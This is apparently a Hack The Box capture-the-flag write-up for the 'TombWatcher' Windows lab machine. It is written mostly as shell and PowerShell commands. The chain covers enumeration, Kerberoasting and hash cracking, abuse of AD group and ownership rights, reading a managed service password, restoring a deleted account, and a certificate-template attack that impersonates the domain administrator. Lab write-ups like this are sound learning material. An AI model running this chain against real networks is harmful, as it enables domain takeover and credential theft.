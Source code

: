 # TombWatcher HTB Report

## 1. Initial Enumeration

We started by scanning the target machine to identify open ports and services.

```bash
nmap -p- -sS -vvv 10.10.11.72
nxc smb 10.10.11.72 | grep "domain:" | sed 's/.*(name:\([^)]*\)).*(domain:\([^)]*\)).*/\1 \2/' | while read NAME DOMAIN; do echo "10.10.11.72    $NAME $NAME.$DOMAIN $DOMAIN"; done | sudo tee -a /etc/hosts
```

## 2. User Enumeration

With the initial information, we proceeded to enumerate users using LDAP.

```bash
nxc ldap 10.10.11.72 -u 'henry' -p 'H3nry_987TGV!' --bloodhound --collection All --dns-server 10.10.11.72
```

## 3. Kerberoasting

We then attempted to extract service account hashes through Kerberoasting.

```bash
targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

## 4. Password Cracking

The captured hash was cracked using John the Ripper and a wordlist.

```bash
/john --wordlist=/home/user/wordlists/rockyou.txt /home/user/htb/tombwatcher/hashes.txt
```

**Cracked Password:** `basketball` for user `alfred`.

## 5. Privilege Escalation

### 5.1. Adding User to Group

We added the `alfred` user to the `INFRASTRUCTURE` group.

```bash
bloodyAD --host '10.10.11.72' -d 'DC01.tombwatcher.htb' -u 'alfred' -p 'basketball'  add groupMember 'INFRASTRUCTURE' alfred
```

### 5.2. Retrieving Managed Password

We retrieved the managed password for the `ANSIBLE_DEV$` account.

```bash
bloodyAD -u alfred -d 'DC01.tombwatcher.htb' -p basketball --host '10.10.11.72' get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword
```

### 5.3. Setting New Password

We set a new password for the `SAM` user.

```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p :7bc5a56af89da4d3c03bc048055350f2 set password SAM "newP@ssword2025"
```

### 5.4. Taking Ownership

We took ownership of the `JOHN` object.

```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u SAM -p "newP@ssword2025" set owner JOHN SAM
```

### 5.5. Gaining Full Control

Finally, we granted `FullControl` rights to the `SAM` user over the `JOHN` object.

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'SAM' -target 'JOHN' 'tombwatcher.htb'/'SAM':'newP@ssword2025'
```

### 5.6 Change Password of JOHN
```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u 'SAM' -p 'newP@ssword2025' set password JOHN "newP@ssword2025"
```

# Login with evil-winrm-py
```bash
evil-winrm-py -i 10.10.11.72 -u JOHN -p "newP@ssword2025"
```

# Enumerate CA, templates, and highlight vulns (ESC1/2/3/6/7/8)
```bash
certipy find -u 'JOHN@tombwatcher.htb' -p 'newP@ssword2025' -dc-ip 10.10.11.72 -vulnerable -stdout
```

# Find deleted accounts:
```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```

# Restore deleted accounts:
```powershell
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```
# Enable cert_admin account
```bash
Enable-ADAccount -Identity cert_admin
```

# Change cert_admin password using bloodyAD
```bash
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force)
```

# Find vulnerable templates
```bash
certipy find -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -dc-ip 10.10.11.72 -vulnerable -stdout
```

certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -ca 'tombwatcher-CA-1' -template 'User' -dc-ip 10.10.11.72

certipy auth -pfx cert_admin.pfx -dc-ip 10.10.11.72

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```
#login as admin
```bash
certipy auth -dc-ip '10.10.11.72' -pfx 'administrator.pfx' -domain 'tombwatcher.htb' -ldap-shell
```

# alternativa mudar o password com bloodyAD
```bash
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -k pfx=administrator.pfx set password 'administrator' 'NewPassw0rd!'
```
